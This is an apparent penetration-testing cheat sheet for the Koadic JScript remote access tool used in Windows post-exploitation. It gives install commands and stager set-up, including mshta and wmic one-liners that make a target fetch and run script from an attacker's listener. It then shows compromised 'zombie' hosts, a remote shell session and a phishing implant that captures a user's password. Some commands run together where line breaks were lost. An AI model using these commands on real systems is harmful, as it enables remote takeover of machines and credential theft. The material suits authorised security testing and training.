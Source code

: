 # Windows - Post Exploitation Koadic

# Koadic C3 COM Command & Control - JScript RAT

> Windows post-exploitation rootkit similar to other penetration testing tools such as Meterpreter and Powershell Empire.

## Installation

    git clone https://github.com/zerosum0x0/koadicgit submodule initgit submodule updatepip2.7 install -r requirements.txt --userpython2.7 koadic

## Set a listener

    use stager/js/mshtaset LHOST 192.168.1.19set SRVPORT 4444run[>] mshta http://192.168.1.19:4444/6DX7f

    use stager/js/wmicset LHOST 192.168.1.19set SRVPORT 4444run[>] wmic os get /FORMAT:"http://192.168.1.19:4444/lQGx5.xsl"

### Stagers

Stagers hook target zombies and allow you to use implants.

[Untitled](Windows%20Post%20Exploitation%20Koadic/Untitled%20Database.csv)

## List zombies and interact with them

    (koadic: sta/js/wmic)$ zombiesID   IP              STATUS  LAST SEEN---  ---------       ------- ------------0    192.168.1.30    Alive   2018-10-04 17:07:12(koadic: sta/js/wmic)$ zombies 0ID:                     0Status:                 AliveFirst Seen:             2018-10-04 17:05:00Last Seen:              2018-10-04 17:14:42IP:                     192.168.1.30User:                   DESKTOP-68URA9U\CrashWin[...]Elevated:               No[...]

Interact with `zombies zombie_id`, get a shell with `cmdshell zombie_id`.

    [koadic: ZOMBIE 0 (192.168.1.30) - C:\Users\CrashWin]> whoami[*] Zombie 0: Job 1 (implant/manage/exec_cmd) created.[+] Zombie 0: Job 1 (implant/manage/exec_cmd) completed.Result for `cd C:\Users\CrashWin & whoami`:desktop-68ura9u\crashwin

## Use an implant

Select an implant with `use module`, then fill the `info` with `set INFO value`, finally start the module with `run`.

    (koadic: sta/js/mshta)$ use implant/phish/password_box(koadic: imp/phi/password_box)$ set ZOMBIE 1(koadic: imp/phi/password_box)$ runInput contents:MyStrongPassword123!

### Implants

Implants start jobs on zombies.

[Untitled](Windows%20Post%20Exploitation%20Koadic/Untitled%20Database%201.csv)

## References

- [Pentestlab - koadic](https://pentestlab.blog/tag/koadic/)
- [zerosum0x0 Github - koadic](https://github.com/zerosum0x0/koadic)